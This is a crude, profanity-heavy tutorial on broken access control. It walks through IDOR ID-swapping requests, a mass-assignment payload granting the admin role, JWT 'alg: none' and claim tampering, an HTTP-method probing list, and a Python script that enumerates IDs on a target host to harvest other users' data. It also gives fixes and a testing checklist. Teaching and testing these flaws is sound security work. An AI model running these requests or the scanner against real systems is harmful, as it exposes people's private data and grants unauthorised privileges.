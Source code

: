 
## **BROKEN ACCESS CONTROL - THE COMPLETE FUCKING MASTERCLASS**

### **What This Shit Really Means:**
Broken Access Control means the application fails to enforce **"who can do what to whom"**. It's like having a security system that looks tough but has all the doors unlocked.

### **The Core Fucking Concepts:**

#### **1. Horizontal vs Vertical Privilege Escalation**

**Horizontal:** You stay at your level but access other people's shit
- Example: User A can see User B's data (same privilege level)
- `https://bank.com/account/123` → `https://bank.com/account/124` 😈

**Vertical:** You climb the fucking ladder to higher privileges  
- Example: Regular user becomes admin
- Changing `role=user` to `role=admin` in your profile

#### **2. IDOR (Insecure Direct Object References) - The Hacker's Best Friend**

This is where the real fun begins, IDOR happens when the app exposes internal implementation objects to users.

**Real-World Hunting Grounds:**
- URLs with IDs: `/user/567/profile`
- API endpoints: `/api/orders/8912`
- File downloads: `/download?file=secret.docx`
- API parameters: `{"user_id": 734}`

### **Advanced Exploitation Techniques:**

#### **Method 1: Parameter Tampering - The Classic Fuckery**

**Scenario:** E-commerce site where you can view orders

```http
GET /api/orders/1001 HTTP/1.1
Authorization: Bearer user_jwt_token
```

**What a hacker does:**
```http
GET /api/orders/1002 HTTP/1.1  # Changed from 1001 to 1002
Authorization: Bearer user_jwt_token
```

**Even more dangerous:**
```http
GET /api/admin/users HTTP/1.1  # Trying admin endpoint
Authorization: Bearer user_jwt_token  # With regular user token
```

#### **Method 2: Mass Assignment Attacks - The Silent Killer**

**Vulnerable Registration Code:**
```javascript
// Shitty code that blindly accepts all fields
app.post('/register', (req, res) => {
    const user = new User(req.body);
    user.save();
});

// Request payload a normal user would send:
{
    "username": "john",
    "email": "john@email.com",
    "password": "123456"
}

// What a hacker sends:
{
    "username": "hacker",
    "email": "hacker@evil.com", 
    "password": "hackpass",
    "role": "admin",           // Adding unauthorized field
    "isActive": true
}
```

**The Fix - Explicitly allow fields:**
```javascript
app.post('/register', (req, res) => {
    const { username, email, password } = req.body;
    const user = new User({ username, email, password });
    user.save();
});
```

#### **Method 3: JWT Token Fuckery**

**Decoding a JWT (JSON Web Token):**
```javascript
// A JWT looks like: header.payload.signature
// Decode the payload (it's base64):
const payload = {
    "user_id": 123,
    "username": "regular_user",
    "role": "user",        // Target for modification
    "exp": 1635724800
}
```

**Attack Vectors:**
1. **Algorithm Switching:** Change `alg: "RS256"` to `alg: "none"`
2. **Signature Bypass:** Remove/alter the signature
3. **Claim Manipulation:** Decode and change `role: "user"` → `role: "admin"`

#### **Method 4: HTTP Method Manipulation**

Sometimes the frontend hides buttons but the backend endpoints still exist:

```http
# Frontend doesn't show delete button for users
# But the endpoint might still be accessible:

POST /api/users/delete/567 HTTP/1.1
# OR try different methods:
PUT /api/users/567 HTTP/1.1
PATCH /api/users/567 HTTP/1.1  
DELETE /api/users/567 HTTP/1.1
```

### **The Unstoppable Hacker's Toolkit:**

#### **Manual Testing Approach:**
1. **Spider the application** - find all endpoints
2. **Map user roles** - what can each role do?
3. **Test every fucking endpoint** with different privilege levels
4. **Parameter fuzzing** - try sequential IDs, UUIDs, other users' data

#### **Burp Suite Magic:**
```
# Using Burp Scanner + Manual testing
1. Configure different user contexts in Burp
2. Compare site maps between user roles
3. Use "Compare Site Maps" to find hidden endpoints
4. Automate parameter tampering with Intruder
```

#### **Automated Script Example:**
```python
import requests
import json

# Your authenticated session
session = requests.Session()
session.headers.update({'Authorization': 'Bearer YOUR_TOKEN'})

# Test IDOR across multiple endpoints
endpoints = [
    '/api/users/{}',
    '/api/orders/{}', 
    '/api/files/{}',
    '/api/admin/users/{}'
]

def test_idor(user_id_range):
    for endpoint in endpoints:
        for user_id in user_id_range:
            url = f"https://target.com{endpoint.format(user_id)}"
            response = session.get(url)
            
            if response.status_code == 200:
                print(f"[!] VULNERABLE: {url}")
                # Check if we got someone else's data
                data = response.json()
                if 'email' in data or 'private' in str(data).lower():
                    print(f"[CRITICAL] Got sensitive data from {url}")
```

### **Real-World Exploitation Chain:**

**Step 1:** Find user ID in profile: `GET /api/me` → `{"id": 1001, "role": "user"}`

**Step 2:** Test horizontal escalation:
```http
GET /api/users/1002
GET /api/users/1001/orders
GET /api/users/1002/orders  # Bingo! We see other user's orders
```

**Step 3:** Test vertical escalation:
```http
GET /api/admin/dashboard
GET /api/admin/users
POST /api/admin/create-user
```

**Step 4:** Mass assignment on user update:
```http
PATCH /api/users/1001
Content-Type: application/json

{"username": "hacker", "role": "admin", "permissions": "all"}
```

### **Bypassing Weak Defenses:**

**Weak Check (Easily Bypassed):**
```python
# Easy to bypass - only checks if user exists
if request.user.is_authenticated:
    return sensitive_data  # FUCKING DANGEROUS
```

**Strong Check (Proper Authorization):**
```python
# Proper fucking authorization
def view_sensitive_data(request, data_id):
    user = request.user
    sensitive_data = SensitiveData.objects.get(id=data_id)
    
    # Check ownership or specific permissions
    if sensitive_data.owner != user and not user.has_perm('view_all_data'):
        raise PermissionDenied("Get the fuck out")
    
    return sensitive_data
```

### **The Ultimate Testing Checklist:**

- [ ] Test all object references in URLs and parameters
- [ ] Try accessing other users' resources by ID manipulation  
- [ ] Test mass assignment on all create/update endpoints
- [ ] Check JWT tokens for algorithm vulnerabilities
- [ ] Test HTTP methods beyond what the UI shows
- [ ] Attempt to access admin interfaces as regular user
- [ ] Test file downloads with manipulated paths
- [ ] Check for CORS misconfigurations that leak data
- [ ] Test race conditions in privilege changes

This is how you become fucking unstoppable. You systematically break every assumption the developers made about "who should see what". You treat every ID, every endpoint, every parameter as a potential gateway to someone else's kingdom.

